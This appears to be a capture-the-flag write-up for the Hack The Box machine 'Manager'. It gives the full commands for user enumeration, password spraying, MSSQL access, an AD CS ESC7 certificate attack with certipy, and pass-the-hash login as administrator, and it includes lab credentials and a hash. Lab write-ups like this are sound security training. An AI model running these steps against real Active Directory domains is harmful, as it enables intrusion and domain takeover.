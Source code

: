 ```yaml
---
date: 2025-01-18
categories: [CTF, HTB]
title: "HTB - Manager"
tags: ['hashcat', 'impacket', 'linux', 'nmap', 'privilege escalation', 'rce', 'smb', 'windows']

description: "Manager - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Manager

NMAP

![image1](../resources/0aaa9860fd9a41b0ad8c934cd32f5256.png)
 
Add manager.htb to /etc/hosts

```bash
./kerbrute userenum --dc 10.129.217.154 -d manager.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -o users.txt

```

![image2](../resources/b2465f024a0c41519698f423a6e726c1.png)

```bash
cat users.txt | grep "VALID" | cut -d ":" -f 4 | cut -d " " -f 2 > validusers.txt

impacket-GetNPUsers manager.htb/ -users validusers.txt -no-pass -dc-ip manager.htb
```

![image3](../resources/254b9407b415478ab6610387debfca97.png)

- No ASRepRoasting to be done

- Not able to login with usernames and no password:
```bash
enum4linux -u "guest" -a manager.htb

```
- Extract the usernames:
```bash
cat validusers.txt | cut -d '@' -f1 > usernames.txt

```
- Got a using the usernames as passwords:
```bash
crackmapexec smb manager.htb -u usernames.txt -p usernames.txt --no-brute --continue-on-success

```

![image4](../resources/eea8a12ece0c459b93854c2005b25275.png)

**operator:operator**

**<u>MSSQL</u>**

- We do have port 1433 open - MSSQL:

- Using Windows' own **sqlcmd** - it doesn't work:
```bash
sqlcmd -S manager.htb,1433 -U operator -P operator -C

```

![image5](../resources/5d76c8f76d954958b795a9e18ec48cd5.png)

- But using impacket's tool mssqlclient:
```bash
impacket-mssqlclient -p 1433 manager/operator:operator@manager.htb -windows-auth

```

![image6](../resources/99b0ec907f5a4869bda3a02ed837b8fe.png)

We can connect specifying the **-windows-auth** parameter

It authenticates using Windows authentication, which could suggest that the 'operator' account is configured or works correctly under Windows authentication rather than SQL Server authentication

<u>List of extra commands:</u>


![image7](../resources/2f7494eef5664d589dd45345cb972db0.png)
```sql
SELECT @@VERSION -- to get the SQL Server version,
SELECT SYSTEM_USER -- to identify the current user,
SELECT name FROM master.sys.databases -- to list databases
USE DatabaseName; -- Use db
SELECT table_name FROM information_schema.tables WHERE table_type = 'BASE TABLE'; -- Show all tables in db
SELECT * FROM TableName; -- Show all information in table
```
----------------------------------------------------------------------------------------------------------------

- Tried to crack ntlm hashes with xp_dirtree and responder:

![image8](../resources/d4c0dd63c9f445b1afe8dd6696615a20.png)


![image9](../resources/76f151fbf7824747b249c7e0f170faa1.png)


![image10](../resources/9f9aedd0abbe4b4184e63beb28c32bde.png)


![image11](../resources/c78b85ef04ed479fa9c5ee31e2290425.png)

But hashcat got exhausted

----------------------------------------------------------------------------------------------------------------

- Using xp_dirtree we can list all the folders in c:\\

![image12](../resources/4d8818100ffc4512a8d55ed9ae323f53.png)

- The default IIS webserver directory is:
**C:\inetpub\wwwroot**


![image13](../resources/64fb85956c6341f8b29c5f13b89d3bed.png)

Here we can see a .zip file

- Using wget we can download the file:
```bash
wget http://manager.htb/website-backup-27-07-23-old.zip

```

![image14](../resources/f3341b964f204c6eb1e6935054e02c92.png)

- We get credentials for raven in the **.old-conf.xml**:

![image15](../resources/2c6fe37d17114303965dc8c159082031.png)

**raven : R4v3nBe5tD3veloP3r!123**


![image16](../resources/3c3efa2fc52c4cacb9e4c6cc8e6c5501.png)

```bash
evil-winrm -i manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'

```

![image17](../resources/003b757401604cd1be69a9ea7b0ed67a.png)

```bash
cat user.txt

```
- Check VMWare version:
```powershell
$vmwareToolsDir = "C:\Program Files\VMware\VMware Tools"
$vmwareToolsVersion = (Get-Item "$vmwareToolsDir\vmtoolsd.exe").VersionInfo.FileVersion
Write-Host "VMware Tools Version: $vmwareToolsVersion"

```

![image18](../resources/25dc1069185941a7a432cad977f77ca4.png)

- Upload Certify.exe:
**Certify is a C# tool to enumerate and abuse misconfigurations in Active Directory Certificate Services (AD CS)**

<https://github.com/GhostPack/Certify>

```bash
.\Certify.exe find /vulnerable

```

![image19](../resources/c8af8c2b87244e07bba9201823fd087a.png)

Raven has ManageCA and Enroll rights but there are no vulnerable templates

This does confirm however that there are ADCS services running


![image20](../resources/ede8fbf26aa64d33b6e422a1cdfab847.png)

- <u>This scenario is vulnerable to ESC7:</u>
<https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation>

<https://github.com/ly4k/Certipy?tab=readme-ov-file#esc7>

- **<u>Steps (on Kali):</u>**

```bash
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

```

![image21](../resources/879f1ab119c14bfb9bbddd70c1e31605.png)

```bash
certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

```

![image22](../resources/949370e28b9f461db3da6d2925e8c6c4.png)

**<u>Attack</u>**

- If we have fulfilled the prerequisites for this attack, we can start by requesting a certificate based on the SubCA template.
This request will be denied, but we will **save the private key** and note down the **request ID**

```bash
certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn administrator@manager.htb

```

![image23](../resources/207f1cf8d6744258b457b6e55da46cec.png)

- With our Manage CA and Manage Certificates, we can then issue the failed certificate request with the ca command and the
-issue-request \<request ID\> parameter

```bash
certipy ca -ca 'manager-DC01-CA' -issue-request **13** -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

```

![image24](../resources/939eb694d26b41f99d409f1092996575.png)

- And finally, we can retrieve the issued certificate with the req command and the -retrieve \<request ID\> parameter

```bash
certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -retrieve 13

```

![image25](../resources/b508267ecf5a40adaf179cc413aa3dd2.png)

- Now we have a **.pfx certificate** as the administrator

- Authenticate as the administrator:
```bash
certipy auth -pfx administrator.pfx -dc-ip 10.129.218.140

```

![image26](../resources/76c6fc86c8494ddb96624e3e89883ae4.png)

We get a NTP error because the time difference between my Kali machine and the DC is too big

- To synchronise the time, run:
```bash
sudo ntpdate -u manager.htb

```

![image27](../resources/89eb775c801241b0abd0b6b2f5273ab0.png)

These two steps, between the ntp sync and auth, needs to be quick

- And we get an administrator hash:

![image28](../resources/2d29121dc61448e18c2aeeb3ab32c5d1.png)

- Using the hash and evil-winrm:
```bash
evil-winrm -i manager.htb -u administrator -H ae5064c2f62317332c88629e025924ef

```

![image29](../resources/26f6cfb6503540428d9ae1ce1f6f9895.png)

```bash
cat root.txt

```